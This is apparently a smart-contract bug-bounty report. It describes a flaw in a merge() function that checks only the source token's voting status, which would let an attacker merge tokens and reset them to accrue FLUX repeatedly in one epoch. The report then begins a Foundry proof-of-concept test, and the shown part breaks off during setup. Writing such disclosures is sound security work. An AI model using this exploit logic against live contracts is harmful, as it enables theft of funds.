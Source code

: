 because merge() only require   ```   require(!voted[_from], "voting in progress for token");   ```

it doesn't require the merged "to" token to be not voted .. only the first token 

the attacker now could merge ID1 & ID2  to  ID3 

and use the reset function with the new total balance .. 
and accrue flux even if the same IDs tokens balance accrued flux previously in the same epoch!




## Impact Details

the suitable in-scope impact is **Unauthorized minting of NFTs**
because this will enable an attacker to gain infinitive FLUX by repeating this tricky scenario  


## Proof of concept
``` 

/*
       █▀█  ▀▄▀  █▀▄▀█ █ █▄░█ ▄▀█ ▀█▀ █▀█ 
       █▄█  █░█  █░▀░█ █ █░▀█ █▀█ ░█░ █▄█ 
*/


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/console.sol";
import "./BaseTest.sol";


contract MyTest is BaseTest { 


address public user = address(2);
uint256 internal constant ONE_WEEK = 1 weeks;
uint256 internal constant THREE_WEEKS = 3 weeks;
uint256 internal constant FIVE_WEEKS = 5 weeks;
uint256 internal constant MANYWEEKS = 52 weeks;

uint256 maxDuration = ((block.timestamp + MAXTIME) / ONE_WEEK) * ONE_WEEK;

 function setUp() public { 

      setupContracts(block.timestamp);

    }


  function _lockVeALCX(uint256 amount) internal returns (uint256) {

        deal(address(bpt), address(this), amount);
        IERC20(bpt).approve(address(veALCX), amount);
        return veALCX.createLock(amount, MAXTIME, false);

    } 

   function _setupgauge() internal {
        
        address alUsdGaugeAddress = voter.gauges(alUsdPoolAddress);

        address bribe1 = voter.bribes(alUsdGaugeAddress);

```